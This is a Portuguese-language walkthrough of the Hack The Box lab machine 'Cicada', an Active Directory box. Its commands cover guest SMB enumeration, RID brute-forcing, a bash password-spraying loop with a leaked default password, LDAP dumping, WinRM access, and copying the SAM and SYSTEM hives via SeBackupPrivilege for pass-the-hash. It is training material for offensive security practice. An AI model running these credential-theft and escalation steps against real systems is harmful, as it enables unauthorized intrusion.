









# Cicada

## Resumo

Essa é uma máquina Windows classificada de dificuldade fácil que envolve a exploração básica de um Active Directory. De início, foi necessário identificar o serviço SMB em execução, e então obter uma pasta compartilhada disponível publicamente que continha uma senha. Após isso, foi necessário enumerar usuários por meio de RID brute-force e então realizar um ataque de password spraying para obter credenciais válidas. Com isso, foi possível utilizar o `ldapdomaindump` para extrair informações sobre o Active Directory, possibilitando encontrar outras credenciais válidas. A partir dessas credenciais, foi possível listar outra pasta compartilhada no SMB, dessa vez com as credenciais do usuário `emily.oscars`, o qual permitia acesso via `WinRM`, possibilitando acesso remoto e encontrar a primeira flag. Para escalar privilégio, foi possível explorar o privilégio `SeBackupPrivilege` do usuário autenticado para extrair o hash do usuário administrador do sistema.

## Reconhecimento

Realizei uma varredura de portas TCP com o `nmap` para identificar os serviços em execução, o que possibilitou encontrar as seguintes portas respondendo:

```bash
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-07 17:13:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
62741/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Analisando a resposta, esses são serviços comuns de se encontrar em um servidor Windows e estão relacionados ao Active Directory. Dentre os serviços disponíveis, as portas 139 e 445 indicam a presença de um servidor SMB. Acessando como usuário convidado (`guest`), os seguintes compartilhamentos são listados:

<figure><figcaption><p>HTB Cicada - SMBMap</p></figcaption></figure>

Perceba que o usuário convidado tem permissão de leitura à pasta compartilhada `HR`. Listando o conteúdo compartilhado, é possível encontrar um arquivo `Notice from HR.txt`:

<figure><figcaption><p>HTB Cicada - Arquivo sensível encontrado</p></figcaption></figure>

É possível baixar esse arquivo com o seguinte comando:

```bash
smbmap -u 'guest' -p '' -H 10.10.11.35 -s 'HR' --download 'HR/Notice from HR.txt'
```

Listando o conteúdo do arquivo, é possível encontrar a seguinte mensagem informando a senha padrão de um usuário não identificado:

<figure><figcaption><p>HTB Cicada - Senha encontrada em arquivo compartilhado</p></figcaption></figure>

Com a senha de um usuário ainda não identificado, foi necessário varrer o Active Directory em busca de possíveis usuários para tentar combinar com a senha. Utilizando o `crackmapexec` por meio do seguinte comando:

```bash
crackmapexec smb 10.10.11.35 -d cicada.htb -u 'guest' -p '' --rid-brute
```

Foi possível obter os seguintes resultados:

```bash
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
<...SNIP>
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Exploração

### Usuário michael.wrightson

Com uma lista de usuários, agora basta realizar um ataque de [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack) em busca de uma combinação de usuário e senha válidos. Desenvolvi um breve script em BASH para automatizar essa tarefa, utilizando os usuários obtidos e o `crackmapexec` para validar as credenciais:

```bash
USERS=$(grep 'CICADA\\' crackmapexec/rid-brute | awk '{print $6}' | cut -d '\' -f 2 | sort -u)
for user in ${USERS}; do
  crackmapexec smb 10.10.11.35 -u "${user}" -p 'Cicada$M6Corpb*@Lp#nZp!8' | grep '[+]' 2> /dev/null | tee crackmapexec/password-spray;
done
```

Mesmo filtrando apenas os resultados válidos, o script retornou diversos falsos positivos:

```bash
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Allowed:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cert:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cloneable:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Denied:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsAdmins:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsUpdateProxy:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Domain:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Group:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Groups:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Key:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Protected:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Read-only:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Schema:Cicada$M6Corpb*@Lp#nZp!8 
```

Observe que dentre os resultados obtidos, o usuário `michael.wrightson` se destaca por ser dentre os únicos da lista que foi adicionado por um administrador, não sendo um usuário padrão. Por conta disso, utilizei ele para tentar fazer login em outros serviços (nesse caso, o LDAP) e tive sucesso.&#x20;

### Usuário david.orelious

Utilizando a ferramenta `ldapdomaindump`, obtive os seguintes resultados:

<figure><figcaption><p>HTB Cicada - ldapdomaindump</p></figcaption></figure>

Analisando o resultado do arquivo `domain_users.json`, é possível encontrar a senha do usuário david.orelious:

<figure><figcaption><p>HTB Cicada - Senha do usuário David</p></figcaption></figure>

### Usuário emily.oscars

Novamente utilizando o SMBMap, mas dessa vez com as credenciais do usuário David, é possível identificar uma permissão de leitura da pasta compartilhada `DEV`.

<figure><figcaption><p>HTB Cicada - Pasta compartilhada DEV</p></figcaption></figure>

Nela, está contido um script PowerShell com o seguinte conteúdo:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Com as credenciais do usuário `emily.oscars`, é possível se autenticar remotamente por meio do protocolo `WinRM`. Utilizando a ferramenta `evil-winrm`, acessei a máquina e obtive a flag de usuário:

<figure><figcaption><p>HTB Cicada - acesso remoto via WinRM</p></figcaption></figure>

## Escalação de Privilégios

Listando as informações sobre o usuário `emily.oscars` por meio do comando `whoami /all`, é possível encontrar os seguintes privilégios:

```powershell
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled <
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

É possível escalar privilégio utilizando a permissão [SeBackupPrivilege](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#local-attack). Utilizando os seguintes comandos, é possível criar um diretório `C:\Temp` e copiar os arquivos `SAM` e `SYSTEM` utilizando o `robocopy`:

```
mkdir C:\Temp
robocopy /b C:\Windows\System32\Config C:\Temp SAM
robocopy /b C:\Windows\System32\Config C:\Temp SYSTEM
```

Com isso, é possível baixar os arquivos na máquina local por meio do comando `download` do `evil-winrm`, e extrair os hashes por meio do `secretsdump.py`, script disponível por meio do `ImPacket`.

<figure><figcaption><p>HTB Cicada - Hashes do secretsdump.py</p></figcaption></figure>

Por fim, basta se autenticar por meio do `evil-winrm` como usuário administrador utilizando a técnica de [Pass The Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/).

<figure><figcaption><p>HTB Cicada - Pass The Hash do usuário Administrator</p></figcaption></figure>
